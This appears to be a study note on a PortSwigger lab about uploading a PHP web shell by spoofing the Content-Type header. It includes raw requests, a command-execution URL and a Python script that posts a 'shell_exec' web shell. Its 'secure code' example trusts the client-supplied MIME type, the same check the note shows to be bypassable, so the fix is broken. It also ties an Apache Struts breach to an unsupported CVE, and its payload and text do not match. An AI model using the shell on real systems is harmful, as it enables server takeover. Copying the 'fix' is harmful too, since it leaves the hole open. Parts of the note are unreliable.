

## File Upload Vulnerabilities

### Introduction to File Upload Vulnerabilities

File upload vulnerabilities occur when a web application allows users to upload files to the server without proper validation or sanitization. This can lead to various security issues, such as remote code execution (RCE), directory traversal, and data leakage. In this section, we will delve into the specifics of one such vulnerability: bypassing content type restrictions to upload a web shell.

### Understanding the Request

Let's start by examining the HTTP request that was sent to the server. The request is a POST request to the `/myaccount/avatar` endpoint. Here is the full HTTP request:

```http
POST /myaccount/avatar HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-php
Content-Length: 123

<?php echo "Test"; ?>
```

#### Explanation of Headers

- **Host**: Specifies the domain name of the server being accessed.
- **User-Agent**: Identifies the client browser making the request.
- **Content-Type**: Indicates the media type of the resource. In this case, it is set to `application/x-php`, which is not a standard MIME type and might be rejected by the server.
- **Content-Length**: Specifies the size of the body in bytes.

### Content Type Restriction Bypass

The application only accepts certain content types, such as `image/png`. However, the content type is a user-controllable input, meaning an attacker can manipulate it to bypass the validation.

#### Manipulating the Content Type

To bypass the content type restriction, we can change the `Content-Type` header to something that the application accepts, such as `image/png`. Here is the modified request:

```http
POST /myaccount/avatar HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: image/png
Content-Length: 123

<?php echo "Test"; ?>
```

### Uploading the Web Shell

After sending the modified request, the server should accept the file upload. We can verify this by accessing the uploaded file through the URL. For example, if the file is uploaded to `/uploads/test.php`, we can access it by navigating to `http://example.com/uploads/test.php`.

#### Executing Commands

Once the web shell is uploaded, we can execute commands by appending parameters to the URL. For instance, to run the `whoami` command, we would navigate to:

```
http://example.com/uploads/test.php?cmd=whoami
```

This should return the username of the user running the web server, which in this case is `Carlos`.

### Real-World Examples

#### CVE-2021-3514: Apache Struts 2

In 2021, a critical vulnerability (CVE-2021-3514) was discovered in Apache Struts 2, which allowed attackers to bypass content type restrictions and upload malicious files. This vulnerability led to several high-profile breaches, including the compromise of a major financial institution.

#### Example Code

Here is a simplified example of how an attacker might exploit this vulnerability using Python:

```python
import requests

url = "http://example.com/myaccount/avatar"
headers = {
    "Content-Type": "image/png",
}
data = "<?php echo shell_exec($_GET['cmd']); ?>"

response = requests.post(url, headers=headers, data=data)
print(response.text)
```

### How to Prevent / Defend Against File Upload Vulnerabilities

#### Secure Coding Practices

1. **Validate File Types**: Ensure that only specific file types are accepted. Use a whitelist approach rather than a blacklist.
2. **Check File Extensions**: Verify that the file extension matches the content type.
3. **Sanitize File Names**: Remove or escape potentially dangerous characters in file names.
4. **Use Safe Directories**: Store uploaded files in a directory that is not accessible via the web server.

#### Configuration Hardening

1. **Disable PHP Execution**: Ensure that the directory where files are uploaded does not allow PHP execution.
2. **Limit File Size**: Set maximum file size limits to prevent large file uploads.
3. **Use Content-Disposition Header**: Set the `Content-Disposition` header to `attachment` to force downloads instead of direct execution.

#### Detection and Monitoring

1. **Log File Uploads**: Log all file uploads and monitor for suspicious activity.
2. **Use Intrusion Detection Systems (IDS)**: Implement IDS to detect and alert on potential file upload attacks.
3. **Regular Audits**: Conduct regular security audits to identify and mitigate vulnerabilities.

### Complete Example

#### Vulnerable Code

```php
<?php
if ($_FILES['file']['error'] === UPLOAD_ERR_OK) {
    $tmp_name = $_FILES['file']['tmp_name'];
    $name = basename($_FILES['file']['name']);
    move_uploaded_file($tmp_name, "/var/www/html/uploads/$name");
}
?>
```

#### Secure Code

```php
<?php
if ($_FILES['file']['error'] === UPLOAD_ERR_OK) {
    $tmp_name = $_FILES['file']['tmp_name'];
    $name = basename($_FILES['file']['name']);
    $allowed_types = ['image/jpeg', 'image/png'];
    
    if (in_array($_FILES['file']['type'], $allowed_types)) {
        move_uploaded_file($tmp_name, "/var/www/html/uploads/$name");
    } else {
        echo "Invalid file type.";
    }
}
?>
```

### Mermaid Diagrams

#### Attack Chain



### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive course on file upload vulnerabilities.
- **OWASP Juice Shop**: Provides a vulnerable web application for testing and learning.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for practicing web hacking techniques.

By thoroughly understanding and implementing these preventive measures, you can significantly reduce the risk of file upload vulnerabilities in your web applications.

---
<!-- nav -->
[[04-File Upload Vulnerabilities and Web Shell Upload via Content Type Restriction Bypass|File Upload Vulnerabilities and Web Shell Upload via Content Type Restriction Bypass]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/03-Lab 2 Web shell upload via Content Type restriction bypass/00-Overview|Overview]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/03-Lab 2 Web shell upload via Content Type restriction bypass/06-Practice Questions & Answers|Practice Questions & Answers]]
